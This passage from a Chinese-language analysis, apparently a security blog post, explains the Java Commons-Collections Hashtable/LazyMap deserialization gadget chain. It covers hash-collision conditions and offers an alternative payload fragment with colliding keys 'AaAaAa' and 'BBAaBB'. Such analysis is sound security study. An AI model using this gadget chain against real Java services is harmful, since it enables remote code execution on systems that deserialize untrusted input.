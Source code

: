```
    Entry&lt;K,V&gt; e = (Entry&lt;K,V&gt;)tab[index];
    // 第一次会把lazyMap1-&gt;yy:1加入到全局变量table中
    tab[index] = new Entry&lt;&gt;(hash, key, value, e);
    count++;

// AbstractMap.equals
Entry&lt;K,V&gt; e = i.next();
K key = e.getKey();
V value = e.getValue();
if (value == null) `{`
    if (!(m.get(key)==null &amp;&amp; m.containsKey(key)))
        return false;
`}` else `{`
    // m: lazyMap1-&gt;yy:1
    // key: lazyMap2-&gt;zZ:1
    if (!value.equals(m.get(key)))
        return false;
`}`
```

### <a class="reference-link" name="%E9%97%AE%E9%A2%98%E4%BA%8C"></a>问题二

**删除LazyMap2中key为yy的元素的根本原因是什么 **

观察到`reconstitutionPut`的代码，想要顺利执行，需要确保两个`lazyMap`的`hashcode`一致，进而`index`计算结果一致才可以。Java中hashcode的计算方式比较复杂，这里简单理解为：如果`lazymap1`和`lazymap1`包含相同数量的元素，并且每个元素的key和value都完全一致，那么计算得出的hashcode就相等

然而`lazyMap1-&gt;yy:1`和`lazyMap2-&gt;zZ:1`的hashcode为什么会相等呢？因为这是一处哈希碰撞，恰好而已。假设改成`lazyMap2-&gt;zZ:2`或`lazyMap2-&gt;zZZZZ:1`都会导致无法运行

```
// 根据lazyMap算出的hascode
int hash = key.hashCode();
// 根据hashcode算出index
int index = (hash &amp; 0x7FFFFFFF) % tab.length;
// 如果index不合法，将不会触发后续的链
for (Entry&lt;?,?&gt; e = tab[index] ; e != null ; e = e.next) `{`
    if ((e.hash == hash) &amp;&amp; e.key.equals(key)) `{`
        throw new java.io.StreamCorruptedException();
    `}`
`}`
```

### <a class="reference-link" name="%E9%97%AE%E9%A2%98%E4%B8%89"></a>问题三

**Payload中的yy和zZ能否改成其他字符串**

参考问题二，要保证hashcode一致，理论上会有很多选择，实际上很难找出合适的

笔者给出一个可用的Payload，字符串AaAaAa和BBAaBB的hashcode相同，测试通过

```
Map lazyMap1 = LazyMap.decorate(innerMap1,chainedTransformer);
lazyMap1.put("AaAaAa",1);

Map lazyMap2 = LazyMap.decorate(innerMap2,chainedTransformer);
lazyMap2.put("BBAaBB",1);
......
lazyMap2.remove("AaAaAa");
```
